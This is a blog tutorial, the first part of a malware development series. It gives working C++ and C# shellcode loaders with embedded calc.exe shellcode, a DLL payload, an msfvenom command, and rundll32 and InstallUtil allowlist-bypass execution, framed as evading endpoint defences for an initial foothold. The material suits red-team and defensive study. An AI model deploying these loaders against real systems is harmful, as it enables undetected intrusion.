








## Malware Development Introduction (aka Malware Dev 101) - Part 1

Welcome to the first Part of the malware development introduction series! <!--- For Part 2 please see the following link:<br />

[Malware Development Introduction - Part 2](part-2-URL) -->

Getting into malware development can be a daunting task. Knowing where and how to get started isn't always that obvious as there are tons of resources out there (both free and paid) but little information on what to start with or focus on first.<br />

The idea of this post is to help make it a bit easier for people starting in malware development by sharing some general direction, tips, and resources I personally have used and found very useful throughout my experiences.<br />

The overall goal of our malware development efforts is typically to execute *shellcode* which we can use to gain an initial foothold in an environment and perform post-exploitation activites. Our objective is to obfuscate our payloads and *shellcode* in a way that bypass endpoint security protections (more on this later) to establish that initial foothold undetected.<br />

Now what actually is **shellcode**? It is generally a small piece of code used to execute some type of task on a computer. Shellcode is typically written in [Assembly Language](https://en.wikipedia.org/wiki/Assembly_language) (ASM) and can be encoded in hexadecimal format for our application. In this case, we'll use it to launch a small program such as `calc.exe`. If you're interested in seeing what ASM looks like, check out [this link](https://wsummerhill.github.io/2018/02/02/SLAE-assignment-1.html) on my blog.<br />
In a real environment we'd be creating and using shellcode that launches a C2 Beacon such as [Cobalt Strike](https://www.cobaltstrike.com/product/features)), but lets just stick to learning the funadamentals for now on how to actually execute shellcode. 

## Part 1 Content Overview

- [Coding Languages](#coding-languages)
- [Setting up your Environment](#setting-up-your-environment)
- [Malware Dev 101](#malware-dev-101)

### Coding Languages

It helps to have even a small programming background before getting into malware development, but just know that it isn't an absolute requirement. If not being a  coder is what's holding you back from getting into malware dev then forget about that and just dive right in. Sure it will help you later on as you become more intermediate and advanced, but to get started you can get by with basic understanding of coding.<br />

For the sake of this post, we will walk through different code samples using both C++ and C# as these are two of the most common and well-documented malware development languages. It also greatly helps us to work in object-oriented programming languages since it will be much easier to interact with the operating system functions (i.e. Win32 API). Newer languages like [Go](https://go.dev/) and [Rust](https://www.rust-lang.org/) are gaining populatity in malware dev, but for the sake of learning fundamentals we'll stick to C-based low-level languages. 

*Note: In this post we're only going to be covering Windows malware development.*<br />

#### General Coding Resources
- [C++ Learning Resources](https://researchcomputing.princeton.edu/education/external-online-resources/cplusplus)
- [cplusplus.com](https://cplusplus.com/)
- [CodeAcademy: Learn C++](https://www.codecademy.com/learn/learn-c-plus-plus)
- [Microsoft: Learn C#](https://dotnet.microsoft.com/en-us/learn/csharp)
- [CodeAcademy: Learn C#](https://www.codecademy.com/learn/learn-c-sharp)

## Setting up your Environment

In order to write and compile our malware on Windows, one of the easiest ways is to install and use [Visual Studio](https://visualstudio.microsoft.com/). The free version we could use is called *Visual Studio Community*. While installing your Visual Studio environment, you will have the ability to add new "Workloads" which can allow you to compile C++ and C# w/ Visual Basic (.NET desktop) development environments. Throughout this post we'll be using both C++ and C#, so if you're following along then having these setup first will be essential.<br />

You can of course program malware from a Linux OS GNU C/C++ Compiler (`gcc`) if you want to. Or on Windows using the `cl.exe` binary as part of Visual Studio to compile C++ programs or `csc.exe` to compile [C#/.NET applications](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/). To keep things simple, we'll use Visual Studio to compile C++ programs and the `csc.exe` compiler to compile C# programs. See a screenshot below of my Visual Studio installation.



## Malware Dev 101

Let's get started with some hands-on work and our first program! We need to have a basic understanding of the requirements needed to launch shellcode in our first malicious program. In order to execute shellcode, we have to familiarize ourselves with the [Win32 API](https://learn.microsoft.com/en-us/windows/win32/api/). Using the Win32 API allows us to interact with backend features of the Windows operating system.<br />

The main Windows API functions we need to execute shellcode are as follows:
1. [**VirtualAlloc**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc): This is our initial function used to allocate space in memory where we are going to place our shellcode and should be equivalent to the size of the shellcode.
2. [**RtlMoveMemory**](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory) or [**memcpy**](https://en.cppreference.com/w/cpp/string/byte/memcpy) (C/C++) / [**Marshal.Copy**](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-8.0) (C#): These functions are used to copy memory from one source (our shellcode) to a target destination, which will be the address we just allocated for our shellcode using **VirtualAlloc**.
3. [**VirtualProtect**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect): This function is used to change the protections on a region of memory, and in our case to make the shellcode region Executable.
4. [**CreateThread**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) and [**WaitForSingleObject**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject): **CreateThread** is used to create a new thread in the current process that's pointing to the start of our shellcode. **WaitForSingleObject** is called after CreateThread to delay execution until the previous thread completes, which our case is required to wait until the shellcode execution finishes (or the process is killed/dies).<br />

I definitely suggest taking a look at each function link from above to read some of the documentation, understand what each function is used for, and the argument syntax.<br />

Now that we are familiar with the Windows API functions required, next we need to create shellcode to execute. For the sake of testing, we're just going to use basic shellcode that launches `calc.exe` to pop the Windows calculator and show our execution worked. To create this shellcode, we could use [MSFvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) from Metasploit that comes packaged with [Kali Linux](https://www.kali.org/), or use an existing calc.bin shellcode from online (i.e. [exploit-db](https://www.exploit-db.com/shellcodes/51634)). <br />
If you have Kali OS handy, you can create your own shellcode with the following command for a 64-bit Windows OS:<br />

`msfvenom -p windows/x64/exec CMD="calc.exe" -f raw -o calc.bin`

Once you have the `calc.bin` output file, you will need to get the hex contents of the file by using something like [CyberChef](https://gchq.github.io/CyberChef). There are many other popular ways to do this, but this is one of the easy methods. In CyberChef, add your shellcode input file into the top-right box, select "**To Hex**" as your Recipe, and then modify the delimeter to make it in an easy format useful for our code such as `\x` or `0x with comma` formats.  



Once you have your shellcode in hex format, we can copy it into our first piece of malware! To create your first C++ executable in Visual Studio, open the app and click **New Project -> Language = C++ -> Select "Console App"**. See example below.



Here is the first C++ sample to launch shellcode:
```cpp
/*
C++ Code - First piece of malware to execute calc.exe
*/
#include <windows.h>
#include <stdio.h>

// Calc.exe shellcode
unsigned char shellcode[] = {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,
  0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
  0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
  0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,
  0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
  0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
  0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
  0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,
  0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
  0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,
  0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
};

unsigned int shellcode_len = sizeof(shellcode);

int main()
{
    void* exec_buffer; // memory buffer for shellcode
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 1. Allocate buffer for shellcode
    exec_buffer = VirtualAlloc(0, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 2. Copy shellcode to buffer
    RtlMoveMemory(exec_buffer, shellcode, shellcode_len);

    // 3. Make the buffer executable
    rv = VirtualProtect(exec_buffer, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

    if (rv != 0) {
        // 4. Run the payload
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_buffer, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Once you compile the program and there are no errors, there should be an EXE in the output directory which will be our payload. Double-click the EXE to confirm the payload works and `calc.exe` gets launched! If there are compiling errors, it is likely due to your environment setup missing installations required for C++.

## EXE vs DLL Payload

Executables (`.exe` files) are typically more likely to get scrutinzed by AV/EDR solutions, but not always. Instead of using EXE's we can compile a malicious Dynamic-Link Library (`.dll`) and use a different method to somehow execute it which will be more likely to blend in with operating system behaviour. Living off the land Binaries (aka [LOLBins](https://lolbas-project.github.io/)) can be used to launch our compiled DLL depending using different execution methods.<br />
*Note that using DLLs are often a more realistic way for us to launch our code by blending in with legitimate operating system processes and network activity.*

### C++ DLL Payload 
To create a DLL in C++ with Visual Studio, go to **New Project -> Language = C++ -> Select "Dynamic Link Library (DLL)"**.<br />
Below is an example of our initial C++ payload which we've modified to a DLL:

```cpp
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
  <SHELLCODE BYTES - Removed for brevity>
};

unsigned int shellcode_len = sizeof(shellcode);

DWORD WINAPI ShellcodeRunner(LPVOID lpParameter)
{
    void* exec_buffer; // memory buffer for shellcode
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 1. Allocate buffer for shellcode
    exec_buffer = VirtualAlloc(0, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 2. Copy shellcode to buffer
    RtlMoveMemory(exec_buffer, shellcode, shellcode_len);

    // 3. Make the buffer executable
    rv = VirtualProtect(exec_buffer, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

    if (rv != 0) {
        // 4. Run the payload
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_buffer, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}

// Program entry point
BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved )
{
    HANDLE th;
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        // Create a thread to call our shellcode runner function
        th = CreateThread(NULL, 0, ShellcodeRunner, NULL, 0, NULL);
        CloseHandle(th);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

In the above C++ code, the `DllMain` function is the default [entry point](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain) for a DLL which is where the program starts. When a process loads the DLL (`DLL_PROCESS_ATTACH`), we want to create a new thread to run our shellcode function, `ShellcodeRunner()`. This function is the exact code from our previous C++ executable and should look familiar.<br />

Notice that we use the `CreateThread` API function here. This is where we call the function we want to create a new thread, aka our shellcode execution function. The `CreateThread` function takes 6 arguments which are detailed in the [Windows API docs](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread). The main argument we need to supply is the 3rd arg, `lpStartAddress`, which is a "pointer to the application-defined function to be executed by the thread". This is the place we call our shellcode function which will run upon launching the DLL. 



In order to execute our DLL, we'll need an executable that will call our DLL. One common method to perform this is referred to as "DLL sideloading" or "Dll search order hijacking" which we can use by hijacking the [Windows default search order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-security) of where DLLs are loaded from. If we place a DLL into the same folder as an EXE that is expected to load a DLL as the same name of our malicious DLL, Windows will search the directory of where the EXE was loaded first, and therefore execute our DLL of the same name. There are [many](https://www.mandiant.com/resources/reports/dll-side-loading-thorn-side-anti-virus-industry), [different](https://attack.mitre.org/techniques/T1574/002/), [resources](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking) for this online so we're not going to get into it here.

To launch the DLL for the sake of testing, we can use the [Rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/) LOLBin with the following syntax, where **compiled-payload.dll** is the name of our DLL and **DLlMain** is the default entry point. Upon execution, there should be an error from `rundll32` but the program should also pop our `calc.exe` shellcode.<br />
`rundll32.exe compiled-payload.dll,DllMain`<br />



### C# EXE Payload
Before we can begin to write malware in C#, we need to understand the difference between "managed code" and "unmanaged code" from the .NET Framework. Managed code is code that is managed by the [Common Language Runtime](https://learn.microsoft.com/en-us/dotnet/standard/clr) (CLR) in .NET, and unmanaged code is code executed directly by the OS. In order to use the typical Windows API functions in C# that we saw above in C++, we first need to import these functions using unmanaged code. This technique is refered to as [Platform Invoke](https://learn.microsoft.com/en-us/dotnet/framework/interop/platform-invoke-examples) (PInvoke). See the following example for PInvoke provided by Microsoft:<br />
```csharp
// Reference: https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.dllimportattribute?view=net-8.0
using System;
using System.Runtime.InteropServices;

class Example
{
    // Use DllImport to import the Win32 MessageBox function.
    [DllImport("user32.dll", CharSet = CharSet.Unicode)]
    public static extern int MessageBox(IntPtr hWnd, String text, String caption, uint type);
    
    static void Main()
    {
        // Call the MessageBox function using platform invoke.
        MessageBox(new IntPtr(0), "Hello World!", "Hello Dialog", 0);
    }
}
```

In this example above, we use the `[DllImport("user32.dll"]` code to load the `MessageBox` API function from the `user32.dll` DLL. We can confirm that this function is within the specific DLL by looking at the [MessageBox documentation here](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messagebox), shown below.



Now we can use this PInvoke technique to import our required Windows API functions for executing shellcode with unmanaged code!<br />

To create an EXE in C#, we can use the following code template to launch shellcode and compile it with `csc.exe` using the following command (*note that csc.exe is part of the .NET Framework*):<br />
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /platform:x64 /out:csharp_payload.exe csharp_EXE.cs`

```csharp
using System;
using System.Text;
using System.Runtime.InteropServices;

namespace Csharp
{
    class Program
    {
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static UInt32 PAGE_READWRITE = 0x04; //RW
        static UInt32 PAGE_EXECUTE_READ = 0x20; //RX

        // Main function
        static void Main(string[] args)
        {
            // Calc.exe shellcode
            byte[] shellcode = new byte[276] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,
                0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
                0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
                0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,
                0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
                0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
                0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
                0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,
                0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
                0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,
                0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
            };

            // 1. Allocate shellcode
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, (0x1000 | 0x2000), PAGE_READWRITE);
            
            // 2. Copy shellcode to allocated space
            Marshal.Copy(shellcode , 0, (IntPtr)funcAddr, shellcode.Length);

            // 3. Change protection to executable
            uint oldprotection = 0;
            VirtualProtect((IntPtr)funcAddr, (uint)shellcode.Length, PAGE_EXECUTE_READ, out oldprotection);

            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // 4. Execute
            hThread = CreateThread(0, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }
    }
}//end namespace
```

You can identify the 5 main functions numbered in the code sample above which are used to launch our shellcode. There are also many small derivations of this code sample generally used to perform the same task of executing shellcode, so other code samples online may look slightly different but function the same.<br />
Once you have your compiled payload, execute it by double-clicking the EXE or running it via command-line. If it works then you should see the Windows calculator (`calc.exe` process) pop up without errors!<br />



### C# DLL Payload
To create a C# DLL, small modifications to the above code would be needed. We're not gong to cover this yet as the execution techniques are a bit more advanced and fit into the **Evasion** category (more on this in [Part 2](part-2-URL)). But we can at least discuss how to execute DLL's in C# by using different LOLBins.<br />

To provide one basic example, we'll look at the [InstallUtil](https://lolbas-project.github.io/lolbas/Binaries/Installutil/) LOLBin which is part of the .NET Framework. The **InstallUtil** binary is normally used to install/uninstall server resources, however we can also use it to launch a malicious DLL. On 64-bit versions of Windows, by default it is installed at the path `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`. This technique is referred to as an "**Application Allowlist Bypass**" by using legitimate binaries to execute malicious code. Some similar .NET binaries for code execution include [MsBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/) or [Microsoft.Workflow.Compiler.exe](https://lolbas-project.github.io/lolbas/Binaries/Microsoft.Workflow.Compiler/).<br />

If you want to look at some of these DLL code samples, please look at the LOLBAS page for each LOLBin and check out the **Resources** section links.



---------------------------------

That's all for now, thanks for reading! <!--- The next part of this series covering evasion techniques can be found at the following link:<br />

[Malware Development Introduction - Part 2](part-2-URL) -->
